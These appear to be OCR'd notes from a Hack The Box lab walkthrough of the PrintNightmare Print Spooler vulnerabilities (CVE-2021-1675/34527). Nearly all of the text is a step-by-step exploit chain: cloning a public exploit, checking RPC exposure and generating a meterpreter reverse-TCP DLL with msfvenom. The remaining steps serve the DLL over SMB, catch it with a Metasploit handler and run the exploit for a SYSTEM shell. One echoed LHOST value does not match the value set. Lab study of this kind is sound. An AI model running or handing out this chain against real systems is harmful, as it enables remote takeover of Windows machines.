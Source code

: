 PrintNightmare
PrintNightmare is the nickname given to two vulnerabilities (CVE-2021-34527 and CVE-2021-1675) found in the Print Spooler service that runs on all Windows operating systems. Many exploits have been written based on these vulnerabilities that allow for privilege escalation and remote code execution.

1. Clone the Exploit
```
TeneBrae93@htb[/htb]$ git clone https://github.com/cube0x0/CVE-
2021-1675.git
```

2. Install cube0x0's Version of Impacket
```
pip3 uninstall impacket
git clone https://github.com/cube0x0/impacket
cd impacket
python3 ./setup.py install
```

3. Use rpcdump.py to see if "Print System Asynchronous Protocol" and "Print System Remote
```
Protocol" are exposed on the target
TeneBrae93@htb[/htb]$ rpcdump.py @172.16.5.5 | egrep 'MS-
RPRN|MS-PAR'
Protocol: [MS-PAR]: Print System Asynchronous Remote
Protocol
Protocol: [MS-RPRN]: Print System Remote Protocol
```

4. Generate a DLL Paylod with MSFVenom
```
TeneBrae93@htb[/htb]$ msfvenom -p windows/x64/meterpreter/reverse_tcp
LHOST=10.129.202.111 LPORT=8080 -f dll > backupscript.dll
```

5. Host the payload in an SMB Share from attack machine
```
TeneBrae93@htb[/htb]$ sudo smbserver.py -smb2support CompData
/path/to/backupscript.dll
```

6. Configure and Start a MSF multi/handler
```
[msf](Jobs:0 Agents:0) >> use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set PAYLOAD
windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set LHOST 10.129.202.111
LHOST => 10.3.88.114
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set LPORT 8080
LPORT => 8080
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> run
[*] Started reverse TCP handler on 10.129.202.111:8080
```

7. Exploit the target!
```
TeneBrae93@htb[/htb]$ sudo python3 CVE-2021-1675.py
inlanefreight.local/<username>:<password>@172.16.5.5
'\\10.129.202.111\CompData\backupscript.dll'
- If all goes well after running the exploit, the target will access the share and execute the
payload. The payload will then call back to our multi handler giving us an elevated SYSTEMshell.
```
